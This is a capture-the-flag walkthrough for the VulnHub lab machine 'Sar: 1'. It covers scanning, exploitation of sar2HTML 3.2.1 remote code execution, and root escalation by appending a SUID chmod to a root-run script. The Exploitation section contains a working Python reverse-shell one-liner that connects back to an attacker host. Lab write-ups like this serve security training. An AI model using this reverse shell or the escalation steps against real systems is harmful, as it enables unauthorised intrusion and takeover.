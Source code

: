 # Information

- Name: Sar: 1
- Date Release: 15 Feb 2020
- Author: Love
- Series: Sar
- Link: https://www.vulnhub.com/entry/sar-1,425/
- Difficulty: Easy

# Write Up
## Enumeration
### Host Discovery 
Host Discovery is performed using [arpScan](https://github.com/Tools) with fast mode. In this case the ip's machine is 10.0.2.12.

```Console
# python arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:80:b6:4c 10.0.2.3
[*] 08:00:27:f9:32:fa 10.0.2.12
```

### Port Scanning
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools).The tool report that there is only one open port (80).

```Console
# python portScanr.py -i 10.0.2.12
[*] Port 80 (http) open
```

## Web 

With _whatweb_ you can enum the versions running on the web server. Nothing interesting, an Apache 2.4.29 and Ubuntu.

```Console
# whatweb http://10.0.2.12
http://10.0.2.12 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.0.2.12], Title[Apache2 Ubuntu Default Page: It works]
```
The _index.html_ is the default page of Apache.
![Apache](images/apache.png)

Let's try fuzzing with gobuster to discover directories and files.

```Console
# gobuster dir -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 40 -u http://10.0.2.12
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.12
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2022/09/01 18:07:17 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/robots.txt           (Status: 200) [Size: 9]
/phpinfo.php          (Status: 200) [Size: 95357]
/server-status        (Status: 403) [Size: 274]

===============================================================
2022/09/01 18:09:00 Finished
===============================================================
```

In _robots.txt_ you can see "sar2HTML", if add it to the url you are going to see another page.
![robots](images/robots.txt)
![Sar2HTML](images/sar2html)

## Exploitation

Sar2HTML is a plotting tools for system stats. The version running is 3.2.1, that is vulnerable to [RCE](https://www.exploit-db.com/exploits/47204). Lets try get a reverse shell via RCE with the reverse shell:

```Python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.7",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![rce](images/rce.png)

## Privilege Escalation

Lets monitorize the machine with pspy. You can see that in /var/www/html/ there are two scripts executing: _write.sh_ and _finally.sh_

```Console
bash-4.4$ cat finally.sh write.sh
#!/bin/sh

./write.sh

#!/bin/sh

touch /tmp/gateway
```
The _finally.sh_ is executing _write.sh_ by root. You can assign SUID perm to /bin/bash to be root.

```Console
bash-4.4$ echo "chmod u+s /bin/bash" >> write.sh
bash-4.4$ cat write.sh
#!/bin/sh

touch /tmp/gateway
chmod u+s /bin/bash
bash-4.4$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  7  2019 /bin/bash
bash-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt /home/love/Desktop/user.txt
66f93d6b2ca96c9ad78a8a9ba0008e99
427a7e47deb4a8649c7cab38df232b52
```


